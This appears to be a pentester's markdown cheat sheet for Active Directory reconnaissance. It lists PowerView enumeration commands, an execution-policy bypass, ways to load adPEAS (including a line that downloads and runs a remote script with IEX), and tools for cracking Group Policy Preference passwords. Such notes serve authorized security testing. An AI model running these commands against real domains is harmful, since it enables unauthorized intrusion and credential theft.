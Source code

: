 # PowerView
```powershell
# First we  need to shutdown execution policy using powershell
powershell -ep (or -ExecutionPolicy ) bypass
. .\ PowerView.ps1
| select OPTION # it's like grep in linux
 Domain
	Get-NetDomain # prints info about Domain
	Get-NetDomainController # points at DC 
	Get-DomainPolicy # shows policies
	(Get-DomainPolicy)."system access" # More info about policies 

 Users
	Get-netuser # prints all users inside the domain 
	Get-netuser | select cn # prints only users names
	Get-netuser | select samaccountname  # prints only users names
	Get-netuser | select description # prints all users description
	Get-UserProperty # show all users properties
	Get-UserProperty -Properties <OPTION> # filter properties by  
	Get-UserProperty -Properties pwdlastset # filter properties for pwdlastset - Prints all users last password set
	Get-UserProperty -Properties logoncount # prints users logon count (Avoid accounts that has 0 logon maybe honeypot)
	Get-UserProperty -Properties badpwd # prints bad password count 

Computers
	Get-NetComputer # Shows computers in the domain 
	Get-NetComputer -FullData # more info about computers
	Get-NetComputer -FullData | select OperatingSystem # prints only operating system info for computers in the domain 
	Get-ComputerInfo #Prints all info about the system 
	Get-DomainComputer COMPUTER_NAME # check for computer on domain

Groups
	Get-NetGroup # print groups 
	Get-NetGroup -GroupName "Domain Admins" # search for domain group names
	Get-NetGroup -GroupName *admin* # wildcard search 
	Get-NetGroupMember -GroupName "Domain Admins" # same options but prints memebers of the group

Shares
	Invoke-ShareFinder # prints all shares


GroupPolicies
	Get-NetGPO # prints group policies
	Get-NetGPO | select displayname, whenchanged # prints displayname and whenchanged from Get-NetGPO
```


# adPEAS 
https://github.com/61106960/adPEAS

start using one of the following:
```
Import-Module .\adPEAS.ps1
```
or
```
. . \adPEAS.ps1
```
or
```
gc -raw .\adPEAS.ps1 | iex
```
or
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')
```

after starting adpeas we can then start enumerating 
start adPEAS with all enumeration modules and enumerate the domain the logged-on user and computer is connected to.

```
Invoke-adPEAS
```

Start adPEAS with all enumeration modules and enumerate the domain 'contoso.com'.

```
Invoke-adPEAS -Domain 'contoso.com' -Server 'dc1.contoso.com'
```

Start adPEAS with all enumeration modules, enumerate the domain 'contoso.com' and use the domain controller 'dc1.contoso.com' for almost all enumeration requests.

```
Invoke-adPEAS -Domain 'contoso.com' -Server 'dc1.contoso.com'
```

Start adPEAS with all enumeration modules, enumerate the domain 'contoso.com' and use the passed PSCredential object during enumeration.
```
$SecPassword = ConvertTo-SecureString 'Passw0rd1!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('contoso\johndoe', $SecPassword)
Invoke-adPEAS -Domain 'contoso.com' -Cred $Cred
```


Start adPEAS with all enumeration modules, enumerate the domain 'contoso.com' and use the username 'contoso\johndoe' with password 'Passw0rd1!' during enumeration.

```
Invoke-adPEAS -Domain contoso.com -Username 'contoso\johndoe' -Password 'Passw0rd1!'
```





# check for gpp / cPassword attack


## invoke-gpp

[Invoke-gpp](https://github.com/vysecurity/ps1-toolkit/blob/master/Invoke-GPPPassword.ps1)


## Metasploit
```
smb_enum_gpp moudle 
```

## gpp-decrypt
```bash
gpp-decrypt <HASH>
```